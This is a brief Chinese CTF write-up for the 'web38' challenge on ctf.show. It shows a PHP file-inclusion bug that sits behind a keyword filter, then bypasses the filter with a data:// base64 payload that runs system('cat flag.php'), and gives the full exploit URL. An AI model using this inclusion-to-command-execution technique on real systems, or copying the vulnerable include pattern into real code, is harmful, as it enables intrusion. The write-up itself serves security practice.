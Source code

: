 # web38

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

既然php伪协议不能用，可以考虑`data`传入

```plaintext
<?php system("cat flag.php"); ?>


PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTsgPz4=
```

即可实现读取`flag.php`

```plaintext
https://48e9096d-f91d-43f4-ba26-266cab994d46.challenge.ctf.show/?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTsgPz4= 
```

![img](img/image_20250224-192446.png)
